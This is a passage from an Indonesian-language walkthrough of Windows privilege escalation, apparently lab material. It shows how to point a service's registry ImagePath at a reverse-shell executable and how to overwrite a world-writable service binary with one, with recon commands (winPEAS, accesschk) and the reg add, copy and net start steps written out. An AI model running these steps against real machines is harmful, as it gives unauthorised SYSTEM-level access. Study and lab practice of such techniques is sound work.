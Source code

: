 Karena kita memiliki fullaccess terhadap registry ini, maka kita bisa mengubah `ImagePath` menjadi path yang kita inginkan. 

```
reg add HKLM\system\currentcontrolset\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

Lakukan verifikasi kembali apakah path sudah terganti. Jika sudah maka jalankan service tersebut
```
net start regsvc
```

Maka service akan menjalankan file executable yang berada di `C:\PrivEsc\reverse.exe`


### Insecure Service Executables
Jika sebuah file executable service bisa dimodifikasi oleh user, maka kita hanya tinggal me-replace service tersebut dengan file exec milik kita. Misal file untuk reverse shell. 

#### Recon
Untuk melihat apakah ada Unquoted Service Path, gunakan perintah
```
winPEASany.exe quiet servicesinfo
```

Yang perlu diperhatikan adalah result berikut
```
filepermsvc(File Permissions Service)["C:\Program Files\File Permissions Service\filepermservice.exe"] - Manual - Stopped
    File Permissions: Everyone [AllAccess]
```

Result diatas menginformasikan bahwa service filepermsvc yang berada di `C:\Program Files\File Permissions Service\filepermservice.exe` dimana semua user memiliki full akses terhadap service tersebut.

Lakukan verifikasi 
```
accesschk.exe /accepteula -quvw user "C:\Program Files\File Permissions Service\filepermservice.exe"
```

Hasilnya `FILE_ALL_ACCESS` yang artinya kita memiliki full access seperti menghapus file service tersebut.

Lalu cek apakah kita bisa start/stop
```
accesschk.exe /accepteula -ucqv mrdoel filepermsvc
```

Lalu kita replace `filepermservice.exe` dengan file executable reverse shell
```
copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
```

Lalu start service

```
net start filepermsvc
```
